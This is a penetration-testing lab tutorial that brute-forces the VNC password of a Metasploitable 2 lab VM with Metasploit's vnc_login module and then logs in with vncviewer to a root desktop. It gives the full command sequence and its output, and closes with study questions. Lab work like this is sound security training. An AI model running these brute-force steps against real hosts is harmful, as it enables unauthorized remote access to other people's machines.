

# VNC Brute Force Login

**Note**: these labs are extremely oriented to the results, using a step-by-step guidance. During your progress, try to find more information and understand what you are doing. 

# Requirements

| Kali Linux | The Kali Linux VM (or any other type of installation) |
| --- | --- |
| Metaploitable 2 | The Metasploitable 2 VM |
| Metasploitable Framework | Metasploit Framework toolset (installed on Kali Linux by default) |
| Metasploitable 2 IP | The IP address of the Metasploitable 2 VM. In my case it is 192.168.8.142. This may be different in your specific case. |

# Laboratory Workflow

The following describe the different steps to be conducted during the laboratory. You may introduce variations on this and learn from those variations.

### 1. Launch the Metasploit Framework

`msfconsole`

### 2. Search for the appropriate module

`search vnc_login`

```
Matching Modules
================

   #  Name                             Disclosure Date  Rank    Check  Description
   -  ----                             ---------------  ----    -----  -----------
   0  auxiliary/scanner/vnc/vnc_login                   normal  No     VNC Authentication Scanner
```

### 3. Use the module

`use auxiliary/scanner/vnc/vnc_login`

### 4. Check the module options

`options`

```
Module options (auxiliary/scanner/vnc/vnc_login):

   Name              Current Setting                                  Required  Description
   ----              ---------------                                  --------  -----------
   BLANK_PASSWORDS   false                                            no        Try blank passwords for all users
   BRUTEFORCE_SPEED  5                                                yes       How fast to bruteforce, from 0 to 5
   DB_ALL_CREDS      false                                            no        Try each user/password couple stored in the current database
   DB_ALL_PASS       false                                            no        Add all passwords in the current database to the list
   DB_ALL_USERS      false                                            no        Add all users in the current database to the list
   DB_SKIP_EXISTING  none                                             no        Skip existing credentials stored in the current database (Accepted: none, user, user&re
                                                                                alm)
   PASSWORD                                                           no        The password to test
   PASS_FILE         /usr/share/metasploit-framework/data/wordlists/  no        File containing passwords, one per line
                     vnc_passwords.txt
   Proxies                                                            no        A proxy chain of format type:host:port[,type:host:port][...]
   RHOSTS                                                             yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-
                                                                                metasploit.html
   RPORT             5900                                             yes       The target port (TCP)
   STOP_ON_SUCCESS   false                                            yes       Stop guessing when a credential works for a host
   THREADS           1                                                yes       The number of concurrent threads (max one per host)
   USERNAME          <BLANK>                                          no        A specific username to authenticate as
   USERPASS_FILE                                                      no        File containing users and passwords separated by space, one pair per line
   USER_AS_PASS      false                                            no        Try the username as the password for all users
   USER_FILE                                                          no        File containing usernames, one per line
   VERBOSE           true                                             yes       Whether to print output for all attempts
```

### 5. Set the appropriate options

`set RHOSTS 192.168.8.142`

```
RHOSTS => 192.168.8.142
```

### 6. Run the exploit

`exploit`

```
[*] 192.168.8.142:5900    - 192.168.8.142:5900 - Starting VNC login sweep
[+] 192.168.8.142:5900    - 192.168.8.142:5900 - Login Successful: :password
[*] 192.168.8.142:5900    - Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
```

### 7. Connect via-VNC with discovered password

Use `vncviewer` to connect to the target machine.

`vncviewer 192.168.8.142`

```
Connected to RFB server, using protocol version 3.3
Performing standard VNC authentication
Password:
```

Enter the correct password.

After the correct password is inserted, you’ll connect via-VNC to the target.

```
Authentication successful
Desktop name "root's X desktop (metasploitable:0)"
VNC server default format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
Using default colormap which is TrueColor.  Pixel format:
  32 bits per pixel.
  Least significant byte first in each pixel.
  True colour: max red 255 green 255 blue 255, shift red 16 green 8 blue 0
```



# Video

Video that resumes everything on this laboratory.


# Questions

Now that you have completed this exploitation try to answer to following:

1. Now, what can I do with the exploitation achieved?
2. Which type of privileges do I have on the exploited target?
3. How was this accomplished?
4. Try to learn more about this vulnerability.